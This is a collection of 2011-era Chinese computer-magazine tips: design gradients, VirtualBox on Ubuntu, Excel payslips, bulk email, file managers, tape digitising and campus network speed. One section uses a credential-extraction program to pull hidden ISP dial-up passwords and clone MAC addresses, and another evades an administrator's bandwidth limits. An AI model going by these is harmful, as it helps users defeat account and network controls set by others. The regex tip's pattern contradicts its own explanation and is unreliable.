音乐的节奏和韵律，通过音的高低、强弱、长短来表现，千变万化但又有一定的秩序性，是有秩序的变化而非无序的杂音。平面设计中的节奏和韵律，则是通过作品中点、线、面等各种构成元素，有序而又变化地表现出来。最常使用的方法，就是渐变构成。渐变，顾名思义，就是物象循序渐进的变化，它符合自然界的发展规律。生活中随处可见渐变的实例，比如海螺、水中涟漪等。当然，渐变的形式是多种多样的，下面我们略举几例。

### 方法一：聚集焦点的发射渐变

如图3所示，这幅平面广告作品中，一下子吸引住我们眼球的是什么？显然是中间的圆形发射状形象！仔细观察，会发现，其实就是一只变异成树枝的手，围绕一个中心简单旋转而形成的。这只手就是所谓的基本形（基本形可以是各种形状），它有规律地旋转一周，这个规律性即体现为所谓的构成的骨骼，说白了，骨骼就是指一种结构。如图4所示，就是本例作品的基本构成骨骼。




在这个圆形之外，儿童、鱼、饮料、小鸟、书本等形象，实际上也是有规律地排列在骨骼线上的，杂而不乱。上例即是发射构成的一个实例。发射构成，就像一个光源向四周射出的光芒，所以很容易成为一幅作品的视觉中心，如图5所示，通过太阳的自然光线的衍射，也产生了非常好的发射构成的效果。


### 方法二：七彩炫丽的色彩渐变

在图6所示的广告作品中，一支画笔被打造成玫瑰的形象，而它的背景是一个由黄到绿的色彩渐变构成的光环，让玫瑰画笔更加的突出。





而在图7所示的广告实例中，则同时运用了色彩和方向渐变，一条弧形线条，通过方向的简单改变和色彩的渐进，形成一道炫丽彩虹效果，暗示该产品能带给人以激扬的人生，效果相当不错。

### 方法三：万变不离其宗的变形渐变

初看图8所示的某运动品牌的广告，感觉出是一个运动员正在准备进球的动作，可是再仔细看来，会发现，构成这个运动员的形象，是由不同姿态的运动剪影构成的，妙趣横生。这种对基本形做大小、位置和形状的渐变处理，可以使图形产生运动的视觉效果，体现形象的律动美感。

(文/流言)


## Virtualbox解决Ubuntu下使用新版旺旺（一）

提到在非Windows系统上运行Windows程序，一种好的办法就是使用虚拟机。在这里，笔者推荐使用甲骨文的VirtualBox系列，因为它是Linux下可用的虚拟机中性能最高的。第一步：在浏览器中访问virtualbox.org（笔者的机器上没有安装Ubuntu，不过Windows版的VirtualBox与Linux版的VirtualBox界面差别不大，所以这里的截图都是Windows下的）。第二步：单击左侧的“Downloads”，再选择“VirtualBox X.X.X for Linux hosts”。第三步：选择“Ubuntu X.X ("XXXX")”后面的i386字样，你会下载到一个DEB包，保存到硬盘后直接双击它就可以把VirtualBox安装到你的机器上了。第四步：从“应用程序->系统工具”中运行Oracle VirtualBox，点击“新建”按钮。第五步：点击“下一步”，选择你要安装的操作系统，然后单击下一步设置内存大小和硬盘大小（这里以XP为例）。第六步：完成后，选中刚创建的虚拟机，单击“设置”，选择左侧的“介质”，单击光驱图标，在右边的“虚拟光驱”组合框中选择“物理设备XX”（如果你准备了系统安装镜像，就单击文件夹图标来选择ISO映像），然后将系统安装盘放入光驱，点击“确定”。最后，单击“开始”，按照正常步骤装好操作系统。第七步：按Ctrl键切换出虚拟机，单击“设备->安装增强功能”，按照提示装好增强功能后重启虚拟机，然后，就可以下载淘宝旺旺以及其他的一些必备Windows程序了。 (挑战者/Wml)

## Virtualbox解决Ubuntu下使用新版旺旺（二）

编辑说到模拟器，我就想到了各种系统通吃的开源虚拟机软件Virtualbox，这个软件还是比较强大的。我在Ubuntu操作系统实际操作了一遍，不算太麻烦，只是创建虚拟机硬盘和安装系统的时间有点长。步骤：①首先进入BOIS中开启CPU虚拟技术，现在大部分CPU都支持；②在http://www.virtualbox.org/wiki/Linux_Downloads上选择自己操作系统的版本；③Deb格式软件可以直接安装，点击安装软件包就自动安装好了；④在菜单中进入Oracle Virtualbox 4.04。之后的操作与Windows上就一模一样了，新建虚拟机>创建账户>新建硬盘>装系统>装软件就OK了，在创建硬盘的时候可以选择动态扩展和固定大小，动态扩展就是硬盘随系统文件大小改变，比较省硬盘空间而且创建速度也快，但是在性能上就不如固定大小了，如果是运行阿里旺旺2010的话，选择动态扩展就足够了。最后附上最终结果，运行情况还是不错的。编辑点评：很多挑战者的来信中都提到了虚拟机，看来“飞叔”提到模拟器还真引导了大家。之所以选中这两篇文章，我觉得第一部分更多的是在讲虚拟机的安装，第二部分则是虚拟机的使用，这两部分结合才是真正的解决之道。一道挑战题让我们学习了更多的知识，也算是一石二鸟了。 (挑战者/画王1毁灭者)

CfanBoundEdition · 2011 143

## 抛弃星空极速 实现多台电脑同时上网

使用电信ADSL宽带的用户都知道，大部分省市的电信ADSL宽带必须要安装电信的星空极速软件来拨号上网。让人郁闷的是，一个宽带账号只能用在一台电脑上，如果家里有多台电脑想共享上网，用其他带共享功能的拨号软件或者路由器来拨号，用电信提供的账号和密码，根本无法拨号成功。因为这个账号和密码只能在星空极速里面用，如果想用其他软件或者路由器来拨号实现共享上网，就必须要获取拨号的真实账号和密码。

### 一、突破星空极速，取回真实账号密码

用互联星空拨号密码取回程序，就可以轻松突破星空极速，获取真实的账户和密码。先下载该程序，不需要安装，然后在装有星空极速拨号软件的电脑上运行该程序，然后用电信提供的账号密码在星空极速软件上拨号，拨号成功后，在电脑的C盘里会生成一个ADSLPASS.TXT的文本文件，打开后，里面就有真实的账号和密码。

### 二、使用真实账号，实现多机共享上网

有了真实账号和密码后，就可以删除星空极速，使用其他带共享上网功能的拨号软件或者路由器来拨号，轻松实现多台电脑共享上网了。

这里以TP-LINK WR541G无线路由器为例介绍如何设置共享上网。用带有无线网卡的笔记本连接到无线路由器，在IE中输入路由器的默认IP地址'192.168.1.1'，然后和输入默认管理员账号为'admin'，密码为'admin'即可进入管理页面，单击'网络参数'，选择'WAN口设置'，在'WAN口连接类型'中选择'PPPoE'，然后输入获取的账号和密码，单击'保存'即可。之后把电信宽带的进户网线接入到无线路由器的WAN口，这样其他带无线功能的笔记本或者手机只要连接到无线路由器即可同时共享上网了。

> 有的地方的电信进行了MAC地址绑定，使用路由器后，由于MAC地址和原来的电脑不同，即使获取了真实的账号、密码，还是无法拨号成功。有两种解决办法：一是打电话到当地电信宽带维护部门，说家里电脑换了，要他们重新绑定就可以了；另外一种方式是利用路由器本身的MAC地址克隆功能，把路由器的MAC地址克隆为和以前电脑一样的就可以了，现在大部分路由器(包括无线路由器)都带有这个功能，登录路由器管理页面后，单击'网络参数'，选择'MAC地址克隆'，然后单击'克隆MAC地址'即可把该无线路由器的MAC地址克隆为原来的电脑一样了。

(文/贺全荣)

## Excel工具箱插件 帮你快速制作工资条

有的小公司人员不多，没有购置专门的财务管理软件，仅用Excel表格简单地管理财务和工资。遇到月底发工资的时候，财务人员会为做工资的事忙活上一阵子。其实，如果找个好帮手，就可以省事不少。

要快速地制作工资条，只需要安装一个Excel插件，名称叫做‘Excel集成工具箱’，该插件安装后，就会在Excel文件中多一个菜单项，该菜单项提供了超过100个功能项，例如财务数据处理、图片处理、增加批注等等，如此丰富的功能几乎涵盖了所有Excel办公内容，制作小小的工资条，当然不在话下了。工资单的Excel表格如图1所示。



选择菜单项‘财务工具→制作工资条’打开该功能项，其意思为从第三行开始，每隔开一行，插入复制的标题栏，如果不明白如何输入，可以将鼠标停窗在空格处，程序将弹出提示框，如图2所示。



插入复制的标题栏后，效果如图3所示。



接下来，如果还需要为每条记录插入空行，那么可选择菜单‘财务工具→隔行插入’，设置为每隔两行，插入一个空行，最后将实现效果如图4所示。



经过这两个步骤，就简单快速地完成了工资条的制作，如果能用好该插件，它将成为您办公的得力帮手。

(文/韩玉宁)

## 不花钱也能发邮件

### (一) RoboTask 自动群发邮件

使用RoboTask这个软件(下载地址http://www.newhua.com/soft/50466.htm)可以很轻松的完成邮件群发的任务。

打开程序，从工具栏选择‘添加任务’，打开‘添加任务对话框’，在任务名称中输入‘邮件群发’，然后在‘操作’页面中，点击下面‘添加’按钮，从弹出的‘选择操作’选项中选择‘Loops And Flows’→‘Text Loop’，打开‘文本循环’对话框，可以从‘外部文本文件’加载保存邮箱列表的文本文件，或者直接在‘指定文本’中输入邮箱地址，不论哪种方式，都需要把一个邮箱地址放一行，然后在‘存储当前行到变量中’下输入一个自定义的名称用作变量，并将变量名称放在‘{}’中(不包括引号)，如‘{MAILLIST}’，点击‘确定’完成邮箱列表的添加。

再点击‘添加’→‘Inernet’→‘Send Email’，打开‘发送邮件’对话框，在‘信息’页面输入发件人信息，需要注意的是收件人的地址填写，不能填写实际邮箱地址，而是需要填写在‘文本循环’对话框中自定义的变量‘{MAILLIST}’，然后填写好邮件的主题、正文、附件等信息；切换到‘SMTP服务器’页面，在‘主机’中填入邮箱的服务器地址(地址请查看邮箱的相关帮助信息)，比如我用的126邮箱SMTP地址是‘smtp.126.com’，在‘身份验证’中输入邮箱的用户名和密码。

最后点击‘添加’→‘Loops And Flows’→‘End Loop’，增加‘结束循环’操作，确定完成整个任务的编辑操作。

在RoboTask主界面的任务列表中，选择刚刚添加的‘邮件群发’任务，然后点击工具栏上的‘运行任务’，RoboTask就会自动的进行邮件群发。

### (二) DreamMail 群发更聪明

打开DreamMail，选择‘通讯录’，在通讯录中点击鼠标右键，选择‘新建组’，命名为‘同事’，然后将要群发对象的邮箱地址添加到组中。(注：DreamMail的默认用户组不能进行邮件群发，必须是手动建立的组)

为了防止因为发送邮件过于频繁而被邮箱服务商封锁账户，可以点击‘工具’→‘选项’，打开对话框，在‘常规选项’的‘发送’项目中，勾选‘自动发送’，并设置好间隔时间和发送数量。

选中要群发邮件的用户组‘同事’，从右键菜单选择‘群发(给组成员)’，进入邮件编辑窗口，输入邮件主题，邮件正文等信息。

点击工具栏的‘独立群发’，打开‘独立群发’对话框，然后点击‘开始独立群发’即可。

(文/陶长俊)

## Windows资源管理器下岗

多标签文件夹浏览、新建文件夹、生成文件列表、生成目录树列表、分割和合并文件、统计文件夹大小等，这是我们日常文件管理中的一些经常性需求。但是，Windows XP自带的资源管理器功能有限，因而在涉及到这些文件操作项目时，不得不安装各种各样的工具软件或插件。笔者以往多年就曾被这些繁琐的事务所困扰，但直到最近才发现，实现这些应用原来完全可以一站式搞定，不必东找西找，装那么多软件。

小提示：实现以上提出的种种常用任务，需要用一款功能更为强大的资源管理软件xplorer2 Pro对系统资源管理器取而代之。该软件界面友好，功能上远远超越系统自带的资源管理器。网上有汉化版可以下载（地址参考：http://www.duote.com/soft/6535.html）。

### 一、资源管理器也玩多标签浏览

现在很时髦多标签的网络浏览器，但Windows的资源管理器还是限于一个窗口或多个窗口重叠显示，没有能实现多标签文件文件夹预览，较为不便。用xplorer2 Pro资源管理器就可轻松实现。标签的建立和具体方法如下：

-   除了用“文件→新建标签”命令新建标签，在标签栏空白处双击也可以新建标签。通过新建标签就可在同一个窗口中显示更多的文件夹内容。<Ctrl+Alt+左右箭头>可以轮流显示所有标签。
-   右键点击标签卡，从菜单中选择“左移”或“右移”命令，可以改变标签的显示位置。
-   标签名允许有重名，但重名不利于识别。因此，当有许多相似名称的标签时，你可以通过标签右键菜单中的“重命名”的功能改名来对他们进行方便的辨认。而当标签所在的文件夹发生变化时，被改名的标签会自动重命名。

### 二、F8功能键一键新建文件夹

在传统的Windows资源管理器中新建一个文件夹，无论用菜单命令还是用右键命令，总需要两三次点击操作才能完成，建立新文件夹——如此频繁的日常操作，微软竟然没有提供一个一键实现的热键，不能不说是遗憾。换用xplorer2 Pro后，直接用键盘快捷键F8，就可以在当前文件夹的位置新建一个文件夹。

### 三、分割、合并文件不需工具

说起大文件的分割、小文件的合并，我们总是想起用合并分割软件，或者用WinRAR、好压之类的压缩软件的分卷压缩功能来实现。使用xplorer2 Pro资源管理器，则可直接进行文件的分割与合并。

通过执行“操作→分割文件”或“操作→合并文件”命令即可实现。

### 四、一次性处理不同位置的文件

要统一给位于不同驱动器的多个文件夹下的文件进行更名或格式转换等操作，在原来的Windows XP资源管理器中该怎么做？那只能是分别进行或拷贝到一块来进行。如果你使用xplorer2 Pro资源管理器临时文件容器，就可以将不同文件夹下的文件通过拖动映射到一个临时容器中进行统一操作（如更名、比较、格式转换等），非常方便。这一概念与Windows 7的资源管理概念有点类似，由于这个软件的产生要早于Windows 7，可见其概念还是超前于Windows 7的。说不定Windows 7就是学习了它的先进理念呢。

### 五、成批给文件添加注释信息

给一个或一组文件设置注释项目，有利于自己或别人能够清楚这些文件的具体用处。通过“操作→设置注释”可对某个特定文件添加注释描述。通过“操作→设置注释”命令，也可以同时对多个已选择的文件设置注释，如果其中有的原文件已存在注释，新注释将附加到原注释之后。要清除原注释，在新注释输入时留空就可以了。

特别提示：这种注释设置只在NTFS格式的分区上有效。如果你将一个带有注释的文件移动到FAT格式的分区上，注释将丢失，而且这时你不一定会得到提示。最好在移动文件时做好备份或用WinRAR保存注释。

### 六、一键生成文件列表信息

有时候我们需要得到资源管理器中某个文件夹中所有文件列表的TXT文本，供文档引用。这时恐怕直接用Windows菜单命令帮不了你的忙。你往往需要借助于文件列表软件或DOS命令来完成。但是，在xplorer2 Pro中，只要通过“编辑→复制名称”命令，就可以把所有选定项目的完整路径和名称以文本形式复制到剪贴板。在其他应用程序中需要引用文件列表时直接粘贴即可，相当方便。

小提示：如果我们需要更为详细的文件列表信息，希望能够包括资源管理器中可见的各种文件列表项目，通过“编辑→复制列”命令即可获得。你可以把这些信息保存为文本或进行打印，甚至输入Excel进行高级操作。这对管理文件来说是十分有用的一个操作。

### 七、一键生成目录树列表信息

在文件管理工作当中，生成和复制目录树列表信息是我们常用到的。通过“编辑→复制列信息”命令，即可很方便地把当前已展开的目录及其下级目录以目录显示的方式复制到剪贴板中。<Alt+→>可以展开当前目录下的所有子目录。

### 八、自动统计文件夹大小

Windows的资源管理器只能显示文件的大小信息而不能显示文件夹的大小。通过xplorer2 Pro资源管理器则可以很方便地统计文件夹大小。执行“工具→子文件夹大小 <Alt+D>”命令，可快速计算当前窗口中所有子目录中全部文件的大小之和，并显示在状态栏中。“工具→文件夹统计”命令会弹出一个窗口以目录树的形式显示当前目录及其子目录占用空间的详细信息，并按大小排序。显示的结果可以复制成文本并打印出来。这在你想知道到底哪些大文件占用了你的磁盘空间时会非常有用。可以用来手动判断和清除系统垃圾。

小提示：如果你选中了“工具→选项→高级”中相应选项，xplorer2 可以自动计算子目录大小。有时这很耗费时间，因此当你浏览磁盘根目录或者网络驱动器时，xplorer2默认是不执行该计算的。确实要计算，请连续按组合键 <Ctrl+D> 两次可以快速实现该功能。

(文/君二)

## 妙用虚拟机突破局域网网速限制

相信很多人上班的时候都是在局域网中，共享带宽。很多网管理员会对网速进行限制，这样我们如果想下载资源，所有带宽将被下载软件吃掉。其实，只要安装一个虚拟机，在虚拟机中进行下载就能够解决这个问题了。

### 一、安装虚拟机

虚拟机推荐使用VirtualPC。我们因为要在虚拟机里安装操作系统，所以需要Windows光盘的ISO文件。

在宿主系统上安装VirtualPC，之后新建一个虚拟机，并设置好虚拟硬盘，再启动它，然后在虚拟机窗口上选择“CD→Capture ISO image”，再选择Windows光盘的ISO文件。

虚拟机会从ISO文件引导，我们顺着向导可以为虚拟机安装系统。由于是在虚拟机里安装系统，安装的时间会比较长一些。

### 二、在虚拟机中下载并拷贝资源

接下来只要在虚拟机中安装下载软件并进行下载即可。使用迅雷同样可以使用高速通道和离线下载来加速，只要机器的配置比较强，不会感觉到对宿主系统有太多的影响。对于下载后的资源，由于默认VirtualPC中的系统与宿主系统是在同一个网段中，所以只要将VirtualPC中系统的下载文件夹共享，宿主系统就可以从中拷贝或移动下载后的资源了，十分简单。

(文/江北书生)

## 一分为二 网络购物更方便

网购一族在网上挑选自己喜欢的商品时，得在多个网页之间不停地来回切换，这的确是非常麻烦。不过，如果你用火狐浏览器购物，经过设置之后可以在一个浏览器窗口中同时显示两个页面，能够直观地对不同页面中的商品进行比较，便于挑选出性价比最高的商品。具体实现方法如下：

### 1. 安装“浏览器分屏”扩展

先从“http://www.firefox.com.cn/”下载火狐并安装运行之，然后打开网页“http://www.firefox.com.cn/addon/”，将扩展名为XPI的火狐“浏览器分屏”扩展下载到桌面（如“split_browser.xpi”），再选中桌面的“split_browser.xpi”文件并将其拖到火狐的主界面中并释放之，此时就会弹出一个名为“软件安装”的对话框，单击图中的“立即安装”按钮，按照提示完成“浏览器分屏”扩展的安装操作就可以了。

### 2. 根据需求，网页随意分屏

完成上述操作后，关闭并重新运行火狐，然后打开与某个商品有关的网页（如Dell本本），接着在火狐中新建一个空白标签页并打开一个同类产品所在的网页（如联想本本），最后单击菜单“拆分→拆分当前标签页到右”，此时在屏幕中，就可以同时看到两个页面了。这样一来，在一个火狐窗口中，就能够同时对两个不同的页面中的商品进行比较，从而为我们挑选自己中意的商品提供了很大方便。

当然，并不仅仅是在一个火狐窗口中同时显示两个页面，仿照上边的方法，我们也可以在一个火狐窗口中同时显示三个或更多页面，这也是很容易做到的。有此需求的朋友不妨一试。

(文/小文龙)

# 书名号该如何加上去

最近帮教授整理一个藏书目录，经过几天工作整理之后终于向教授提交了一份有700多本医书的文本列表（如图1）。但教授看了之后，要求我给每本书加上书名号，这样更正规。面对这个有700多本书的列表，我有点傻眼了，一本一本地去加书名号吗？太费事，用批量操作吗？琢磨了半天也没有找出好方法。无意中在《电脑爱好者》杂志中看到一篇利用正则表达式解决文本替换的文章，受到启发，于是开动脑筋，加以发挥，问题得到解决。



### 第一步：

用EmEditor编辑器打开这个文本列表，通过Ctrl+H快捷键启动“替换”窗口，在“查找”框中输入“^(.)(.?)”字符串，在“替换为”框中输入“\1《\2》”字符串（如图2）。这时，点击“查找下一个”按钮，可以看到，所有满足条件的编号和书名均自动标上了色块（如图3），说明条件构造正确，点击“全部替换”按钮之后，所有符合条件的图书均自动加上了书名号（如图4）。



### 第二步：

对上面的“查找”条件稍做改动，只在第一组小括号内增加一个小数点符号（如图5），执行查找，你会发现所有两位数编号的图书都被加上色块，“替换为”内容保持不变，点击“全部替换”完成两位数编号图书的替换。





### 第三步：

同理，再增加一个小数点符号，完成三位数图书的书名替换。至此，700多本书的书名号加完毕，总共一两分钟完全搞定。

### 小提示：

若列表中有数万本书，则只需再加一个点，成批替换，有数十万本，也只是多加一个小数点的问题。这样，即使是有千万本书，书名号替换也是多加一个小数点的问题，几秒钟即可搞定，效率可以算是很高吧

◆附加说明：为便于读者理解，需要对替换框中的参数做一个简要说明 “查找”框中的两组（ ）定义了两组字符串，分别暗含编号为1和2；^符号表示从开头搜索，第一组（ ）内的两个点表示搜索任意两个字符，第二组（ ）内的符号（.?）与后续的一个空格表示搜索任意内容，一直搜索到遇到空格为止； “替换为”框中的\1表示原封不动引用以上定义的第一组（ ）内的内容，\2表示原封不动地引用以上定义的第二组（ ）内的内容，书名号则是我们需要加上去的实质性内容。



# 资源管理器 这样用更高效

资源管理器人人都知道，但在管理文件方面，人们在没有用好它的情况下，往往就去寻求外部解决方案。其实，如果你能把资源管理器自己的一些功能用好了，管理文件依然可以轻松自如。

### 逆向思维 快速删除文件

在一个文件夹中存放了许多文件，而其中大多数文件对你来说已经失去了作用，需要删除它们。这时，多数人往往会选择用鼠标去逐个点击选择，或者借助于Ctrl或Shift键来联合选择，最后加以删除。其实，如果你反过来想想，你要删掉的是想保留下的少部分的那些文件，情况又如何？这时，你只要用少量的选择，选中你要保留的那几个文件，然后从编辑菜单中选择“反向选择”，最后执行删除命令，你要删除的文件不就快速地被删除了吗！

### 改来改去 也知创建先后

一批Word文档，在经过反复修改之后，如果没有做记录，你很难判断出哪些文档是哪天创建的。其实，不需要任何软件或记事文件来记录，用资源管理器就可以随时形成你的文档的创建日期一览表。

第一步：切换到你要查看的存放这些文档的文件夹，点击“查看→详细信息”命令。

第二步：在文件列表标题栏上点击鼠标右键，然后选择快捷菜单中的“创建日期”，这时，文件列表的上面多了一个“创建日期”的标题栏。

第三步：点击“创建日期”标题栏按钮，文件就自动按创建日期排序了，再次点击则以反方向排序。

这样，每一个文件创建的先后顺序和具体日期便一目了然了。

### 文件注释 不需另装软件

如果你的电脑中收藏有一大堆文件，若没有加注释或文件名简单，通常都不容易记得有关它们的详细信息。现在你可以利用“资源管理器”提供的功能为这些文件加上各种注释，以便将来可以更容易地进行识别。打开一个想要持续跟踪的包含不同文件的文件夹；在“查看”菜单中确定将当前视图选择为“详细资料”方式，高亮并右击想要加入更多信息的文件，在弹出菜单中选“属性”，接着点击“摘要”选项卡（确保它选择的是简单项而不是高级项），现在你可以看到许多注释框，包括有标题、主题、作者、类别、关键字、说明等。切换到高级模式还有一些其他信息框可供选择。接下来你就可以在所有需要的项目中加上注释。完成后，点击文件之上、地址栏下面的工具栏，将会打开一个下拉菜单，在这里你可以选择想要显示的信息内容。现在你将可以看到一列新的项目以及你为之注释的任何内容。如果你想对这些文件进行排序，只需要在空白处右击鼠标，然后就可以选择你喜欢的项目信息进行排序，就像原来系统提供的名称、大小、类型、修改时间等项目所做的那样。

### “我的电脑”变身资源管理器

用“资源管理器”对电脑中的文件进行操作，可以在左窗格显示出文件夹的结构，在文件夹之间切换很方便。可是在默认状况下点击“我的电脑”，却不是用“资源管理器”来打开，必须要用右击，然后再在快捷菜单中选择“资源管理器”，很是麻烦。如果能把“我的电脑”的默认打开方式改为“资源管理器”就好了。

如何改变“我的电脑”的默认打开方式呢？经过摸索，发现了在Windows XP操作系统中的设置方法如下：

打开我的电脑，点击工具菜单“文件夹选项”，点击“文件类型”子选项卡，找到“（无）资料夹”，点击“高级”按钮，点选最上面的操作为explore，然后点击“设置为默认值”，确定即可。

### 小提示：

该用法要求你的文件系统是NTFS格式的

# 家藏老磁带 轻松数字化

许多人家里还保留有一些老磁带，里边的资料都很珍贵，但因多年收藏、环境发生变化，很可能使其中的信息失效。本文向大家讲述如何将家庭收藏的老磁带直接一步到位数字化为MP3电子存档文件。

### 一、硬件准备

转录磁带到电脑中，所需要的硬件要求并不高。首先是需要有一台能够播放磁带的播放机，只要有音频输出接口或耳机接口，就可以满足要求，在条件允许的情况下，我们尽可能去寻找一台放音质量好的播放机。接下来，我们还需要准备一条音频连接线，两头都是公头，连接电脑的一头肯定要是细头，连接放音机的一头要根据你的放音机的音频输出口的情况来定，是粗是细，在购买线缆前要看清，否则，弄错了还弄不去或找转接头。线缆质量差别很大，从三两元一条到几十元甚至上百元一条的都有，几元一条的地摊货质量难以保证，建议你买一条品牌的二三十元线缆即可满足要求。线缆的连接，一头连接到放音机的音频线输出口上，如果没有这样的输出口，接到耳机口上也可以。线缆的另一头要接到电脑声卡的线路输入口（Line in）上，电脑声卡一般都有这样的接口，平时你可能很少使用，现在就派上用场了。

### 二、软件准备

市面上可见到的录音软件有很多，笔者推荐自己使用的全能录音软件Power MP3 Recorder（或称MP3 Sound Recorder），MP3 Sound Recorder是一款非常简单易用的MP3电脑录音软件，利用它，你可以将麦克风、CD、外部线输入、网络音频流等各种来源的音频录制为MP3格式的文件，而且录制后的音质效果极佳。

### 三、音频转录

设备连接好之后，就可以开始音频转录了。要先调整好软件配置，然后按下播放器放音按钮，最后点击软件录音按钮录音。具体步骤如下。

录音来源设备的选择：在录音软件界面上点击‘音量’按钮，弹出录音控制窗口，选择图中所示的第3个选框‘线路输入’，定义录音文件的保存路径和文件名。注意，这项工作要通过软件界面左侧的‘打开’按钮来进入，按下外设播放器的放音按钮，与此同时，点击录音软件界面中的录音按钮开始录音。这时你可以看到录音软件界面中显示正在录音的文件名。按下‘录音&暂停’按钮可以中断录音或恢复继续录制。录制完毕，回放一下录音效果，如果满意，就可依此法推，录完所有的磁带。

如果你在一个已经暂停并处于打开状态的音频文件的基础上继续录音，或者要给一段录音文件追加录音，这时你先点击‘录音&暂停’按钮，软件就会弹出窗口进行提示，其后必须选择‘从结束位置继续录音’按钮才能继续录音，如果你选择了‘覆盖’将删除现在的录音，如果选择了‘选择一个新文件’将另行录制为新的文件。

注意设置录音质量和文件自动命名。点击主界面上的‘设置’按钮，进入设置窗口，可以在‘常规’选项卡中选择录音文件的类型为MP3，录制声道为立体声，MP3比特率和采样率根据自己的需要选择设置。通过‘自动命名’选项卡，可以设置系统自动按日期和时间命名录音文件，这样做的好处是，你可以根据录音时间判断录音顺序，不至于把文件名搞乱。

### 四、光盘制作

辛辛苦苦转录的数字化文件要长期保存，留在硬盘里总不靠谱，万一哪天硬盘坏了，前功尽弃。我们最好能将这些数字化文件制作成光盘，而且这张光盘要实现插入电脑自动播放的效果。

第一步：先将转录获得的音频文件拷贝到硬盘的某个文件夹中。

第二步：将文件按其内容命名，这样便于播放时识别和选择。

第三步：找一款绿色音频播放器软件，例如绿色版的千千静听，启动软件，将这些音乐文件统统加入到播放列表中。

第四步：修改播放列表配置文件，将其中的文件路径统统更改为相对路径，以保证在音频文件刻到光盘或光盘盘符发生变化后仍可正确读出音乐列表。

第五步：编辑一个光盘自动播放配置文件Autorun.inf，在自动播放配置文件中加入播放软件的主程序。配置文件Autorun.inf内容说明如下（//后面的是注释，可以不输入）：
[Autorun] //表示Autorun部分开始，必须输入
Icon=C.ico //给光盘一个个性化的盘符图标
Open=TTPlayer.exe //指定要运行程序的路径和名称。在此假设为光盘下的千千静听绿色版的主程序TTPlayer.exe。

第六步：准备一张空白刻录光盘，启动刻录软件Nero，将以上文件拖入刻录窗口，开始刻录。经过以上操作，磁带里的声音就变成了一张可以自动播放的音频光盘了。

MP3 Sound Recorder还能录什么？除了录磁带中的声音之外，录网页上播放的难以下载的声音，录家中珍藏的VCD、DVD大片中的声音……这些也是我们日常的需求，用上面介绍的这个Power MP3 Recorder软件都可以统统搞定。

1.  通过麦克风直接录制任何外界声音为MP3文件，注意录制前音源要选择为麦克风。
2.  使用电脑光驱，将CD直接录制成MP3文件，注意在录制前要将录音音源设置为CD Audio。
3.  将外部线路输入的任何音频，如收音机、电视机、CD播放器，直接录制为MP3文件，注意用外接连线连接播放设备与声卡，录制前音源选择为Line in。

# 校园网（教育网）网速不给力怎么办

从大一到大四，我一直纠结于学校的网速，还好在此期间也找到了一些改善的办法，希望能跟大伙分享分享。

### 1. 浏览网页难

相信大家都有在用网高峰期等待打开网页的痛苦经历，看着小绿条一点一点的往前爬，心里那个急呀！这里我给大家推荐搜狗浏览器，它的全网加速功能基本上能解决网页打开慢的问题。当然在打开有些网页时你可能会觉得速度还是不太如意，这个可能是兼容性的问题，只要点一下地址栏旁边的‘兼容’按钮应该就可以了。

### 2. 下载视频难

突破端口，用代理服务器，这些太需要技术活的方法，不太适合大部分的同学，而且这四年来总结出来：要想在用网高峰期看在线视频或者下载视频都是不太可能的。如果是在网络相对空闲的时候做这两样事，大家可以试试下面三个软件。

暴风影音：这个软件现在可以在线视频了，上面的资源还是挺多的。最主要的是在非用网高峰期（比如周一到周五的白天，用网的人数不是那么多的时候）用它看在线视频是很流畅的，这可能和它自身的视频加速功能有关吧。暴风只能提供在线观看而不能下载，所以对在非用网高峰期要上课的同学来说这种看视频的方法就行不通了。

皮皮film：这是一款边看边下的软件，在前台观看视频，后台进行下载，它有一个‘开放课程’的点播区，里面的资源包括一些世界名校开放课程、百家讲坛等等。当然这个软件也只能在非用网高峰期使用，你可以在出门的时候把资源点播上，然后按下静音开关（节省资源、保护电脑），这个软件会在前一集下完之后，自动开始下载下一集，一个资源的视频全部下完之后软件有自动关机的功能。网速给力的时候，一天一部二十集的电视剧是可以下载完的，等你回宿舍的时候，就可以观看下载下来的课程了。

硕鼠（重点推荐）：硕鼠这个软件是FLVCD这个解析网站推出的下载工具，FLVCD可以解析包括土豆网、优酷网在内的83个网站的网址（也就是找到这些视频网站或者音乐网站上音频资源的实际下载地址）。我们以土豆网为例介绍一下这个软件的使用方法，我们首先在土豆网播放视频的页面上复制地址栏中的网址，然后将网址粘贴到硕鼠的解析栏里解析。待解析地址出来以后，我们就可以用硕鼠进行下载了。这个软件也可以下载视频，但是与pipifilm不同的是软件小，只下载，不播放，这就减少了电脑的工作负荷。加上土豆网、优酷网的庞大的资源量，所以选择用这个软件来进行下载是可行的。软件的批量下载和下载完成自动关机的功能使得我们可以利用白天的网络空闲期进行下载，晚上用网高峰期就看白天下载的视频就行了。

最后，如果下载视频却有困难的话，我推荐一个网址http://www.mmp333.com/text/other/bajia.htm，这里面有百家讲坛的好多音频文件，音频文件不大，在学校下载就相对容易的多，而且也满足了求知的需要。

# 更加方便 局域网快速发送共享文件一法

我们在平时工作时，经常要和工作组中的同事交换数据，一般情况下，我们都是双击打开对方的共享文件夹，然后再在其中进行操作，如果要分享的人一多，并不是很方便，这时，我们可以通过Windows中的‘发送菜单快速发送文件。

首先打开同事的共享文件夹，右击，选择‘创建快捷方式’命令，之后我们可以在桌面上看到这些快捷方式。再打开C:\Users\用户名\AppData\Roaming\Microsoft\Windows\SendTo文件夹，将这些快捷方式移动到其下，并将其改名，比如‘小王的文档’、‘小张的资料’等。以后我们要向相应用户的共享文件夹中发送文件，只要在资源管理器中选中后，直接右击，选择‘发送到’菜单，然后选择相应的目录就可以了，非常方便。

小提示：如果你使用Windows XP，则SendTo文件放在C:\Documents and Settings\用户名\SendTo文件夹下，进行类似操作就可以了。

# 高效用网 搜索有道

同样的百度，同样的谷歌，同样的需求，为什么人家可以眨眼间找到自己需要的答案，而自己忙活了半日也没有多大收获？其实关键的学问就在搜索引擎和关键词的选择和合理使用上。用好搜索引擎和搜索关键词，能够极大地提高搜索效率。本文就是搜索达人结合具体案例，讲述如何用好搜索引擎来准确搜索信息。

### 一、专业搜索 一步到位

在网上查询资料你用什么搜索引擎？我想很有可能是百度、Google、搜狐、雅虎、新浪、网易等综合类的搜索引擎。如果你想搜索某些专业的相关资料，用这些综合类的搜索引擎搜索出来的资料经常掺杂着大量无用信息，要想从中分辨出哪些有用是一件很苦恼的事情。其实我们完全可以使用专业的搜索引擎，方便快捷，何乐而不为呢？比如：

- 留学专搜：http://www.zhuansoo.com/
- 美国大学专搜：http://search.edutime.net/
- 坐车专搜：http://www.zuoche.com/
- 论坛专业搜索“贴易”：www.teein.com
